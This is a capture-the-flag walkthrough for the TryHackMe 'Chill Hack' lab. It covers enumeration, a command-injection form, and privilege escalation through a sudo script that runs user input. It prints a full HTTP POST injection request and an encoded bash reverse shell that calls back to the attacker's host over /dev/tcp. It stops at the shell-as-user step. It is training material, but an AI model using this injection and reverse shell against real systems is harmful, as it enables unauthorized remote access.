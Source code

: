 # Chill Hack

![image](https://user-images.githubusercontent.com/5285547/127403967-7b72f2d6-60aa-4f74-8f0d-f8bbce81071c.png)

Room link: https://tryhackme.com/room/chillhack


A quick enum to get started, I usually run as a basic, nmap, nikto, gobuster as a min.

## Nmap 

```
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

## Gobuster

```
/css                  (Status: 301) [Size: 310] [--> http://10.10.44.162/css/]
/images               (Status: 301) [Size: 313] [--> http://10.10.44.162/images/]
/fonts                (Status: 301) [Size: 312] [--> http://10.10.44.162/fonts/] 
/secret               (Status: 301) [Size: 313] [--> http://10.10.44.162/secret/]             #  Seem's intresting! 
/js                   (Status: 301) [Size: 309] [--> http://10.10.44.162/js/] 
```

## http://10.10.44.162/secret/
*replace your IP for the rooms IP

This page gives us a box with command execution (Easy!)  

![image](https://user-images.githubusercontent.com/5285547/127404324-dcb6a694-b7cc-4037-8b6c-7f8b56acf541.png)

Trying other things like "ls" gives you...  

![image](https://user-images.githubusercontent.com/5285547/127404273-9aaf970c-0d55-48db-8908-1f152db4b0e9.png)


Testing some more I quickly realise we can chain together commands using ";"
ie:
```
id;ls
```

![image](https://user-images.githubusercontent.com/5285547/127404437-9126f1a0-0442-47a4-8a65-5b2038ddea97.png)

I captured the request in burp suite and then tried a few payloads to get a revershell back. 
First I checked with a simple ping command for a result to prove the connection back. 

Kali
```
sudo tcpdump -i tun0 icmp 
```

Post request

```
POST /secret/ HTTP/1.1
Host: 10.10.44.162
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 41
Origin: http://10.10.44.162
Connection: close
Referer: http://10.10.44.162/secret/
Upgrade-Insecure-Requests: 1

command=id%3bping%20-c%201%2010.8.153.120
```

Bingo! A reply!
```
┌──(ac1d㉿kali)-[~]
└─$ sudo tcpdump -i tun0 icmp                          
[sudo] password for ac1d: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
23:35:26.127709 IP 10.10.44.162 > 10.8.153.120: ICMP echo request, id 1871, seq 1, length 64
23:35:26.127742 IP 10.8.153.120 > 10.10.44.162: ICMP echo reply, id 1871, seq 1, length 64
```

Now I test payloads to see what pings back. 

Reverse shell

Sending a bash rev shell we can get a reverse shell from the command injection we just found. 

```
command=id%3bbash%20-c%20%22%2fbin%2fbash%20-i%20%3e%26%20%2fdev%2ftcp%2f10.8.153.120%2f9999%200%3e%261%
```
Decoded
```
command=id;bash -c "/bin/bash -i >& /dev/tcp/10.8.153.120/9999 0>&1"
```

![image](https://user-images.githubusercontent.com/5285547/127405379-d0199737-5cdb-4af3-a69b-57769ef1529f.png)


## User

Checking sudo -l as www-data shows us something intresting. 

```
Matching Defaults entries for www-data on ubuntu:                                                                                                                                     env_reset, mail_badpass,                                                                                                                                                         secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                                                                                                                                                 
User www-data may run the following commands on ubuntu:                                                                                                                               (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh                                                                                                                             


www-data@ubuntu:/tmp$  cat /home/apaar/.helpline.sh
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```

The script seems to read a name and add it to the person variable.  
Then ask for a msg but never use it. 2>/dev/null
2=STDERR, so send all errors to nothing (but still executing). 

I send another ping to myself to prove its working. 

![image](https://user-images.githubusercontent.com/5285547/127407467-11686b54-374c-4094-941b-282f44528d54.png)

Then I try simply /bin/bash for a shell as the user. 




